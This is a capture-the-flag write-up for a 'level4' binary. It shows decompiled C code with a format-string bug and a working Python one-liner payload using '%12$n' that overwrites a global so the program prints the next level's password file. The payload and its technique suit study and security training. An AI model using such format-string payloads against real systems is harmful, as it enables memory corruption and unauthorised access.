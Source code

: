 # Solution

```c
int n()
{
  int result; // eax
  char v1[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(v1, 512, stdin);
  p(v1);
  result = m;
  if ( m == 16930116 )
    return system("/bin/cat /home/user/level5/.pass");
  return result;
}
```

exploit : format string bug but we can write only 512 characaters because of fgets
so we will use %x "%16930112x": to ensures that the total number of characters printed reaches 16930116

```sh
$: python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"' | ./level4
```
